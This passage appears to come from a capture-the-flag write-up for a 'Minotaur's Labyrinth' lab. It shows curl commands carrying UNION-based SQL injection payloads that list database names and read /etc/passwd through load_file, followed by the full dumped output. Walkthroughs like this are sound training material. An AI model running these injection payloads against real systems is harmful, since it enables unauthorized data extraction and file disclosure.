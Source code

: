 - MySQL version: 10.4.19-MariaDB

**Retrieve database names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,concat(schema_name) FROM information_schema.schemata-- -"
```

- information_schema
- performance_schema
- labyrinth
- phpmyadmin
- test
- mysql

How about **load a file** in MySQL?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,load_file('/etc/passwd')-- -"
		
		[[{"idPeople":null,"namePeople":null,"passwordPeople":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nuuidd:x:105:111::\/run\/uuidd:\/usr\/sbin\/nologin\navahi-autoipd:x:106:112:Avahi autoip daemon,,,:\/var\/lib\/avahi-autoipd:\/usr\/sbin\/nologin\nusbmux:x:107:46:usbmux daemon,,,:\/var\/lib\/usbmux:\/usr\/sbin\/nologin\ndnsmasq:x:108:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nrtkit:x:109:114:RealtimeKit,,,:\/proc:\/usr\/sbin\/nologin\ncups-pk-helper:x:110:116:user for cups-pk-helper service,,,:\/home\/cups-pk-helper:\/usr\/sbin\/nologin\nspeech-dispatcher:x:111:29:Speech Dispatcher,,,:\/var\/run\/speech-dispatcher:\/bin\/false\nwhoopsie:x:112:117::\/nonexistent:\/bin\/false\nkernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:\/:\/usr\/sbin\/nologin\nsaned:x:114:119::\/var\/lib\/saned:\/usr\/sbin\/nologin\navahi:x:115:120:Avahi mDNS daemon,,,:\/var\/run\/avahi-daemon:\/usr\/sbin\/nologin\ncolord:x:116:121:colord colour management daemon,,,:\/var\/lib\/colord:\/usr\/sbin\/nologin\nhplip:x:117:7:HPLIP system user,,,:\/var\/run\/hplip:\/bin\/false\ngeoclue:x:118:122::\/var\/lib\/geoclue:\/usr\/sbin\/nologin\npulse:x:119:123:PulseAudio daemon,,,:\/var\/run\/pulse:\/usr\/sbin\/nologin\ngnome-initial-setup:x:120:65534::\/run\/gnome-initial-setup\/:\/bin\/false\ngdm:x:121:125:Gnome Display Manager:\/var\/lib\/gdm3:\/bin\/false\nminotaur:x:1000:1000:minotaur,,,:\/home\/minotaur:\/bin\/bash\nmysql:x:123:128:MySQL Server,,,:\/nonexistent:\/bin\/false\nanonftp:x:1001:1001:,,,:\/home\/anonftp:\/bin\/bash\n"}]]
```
